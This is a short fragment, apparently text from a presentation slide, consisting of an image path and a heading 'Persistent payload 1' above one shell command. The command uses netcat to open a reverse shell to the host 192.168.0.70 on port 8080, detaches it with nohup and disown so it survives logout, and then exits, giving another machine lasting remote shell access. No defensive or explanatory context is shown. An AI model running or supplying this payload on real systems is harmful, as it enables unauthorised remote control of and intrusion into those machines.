

# Persistent payload 1
nohup nc -e /bin/bash 192.168.0.70 8080 & disown; exit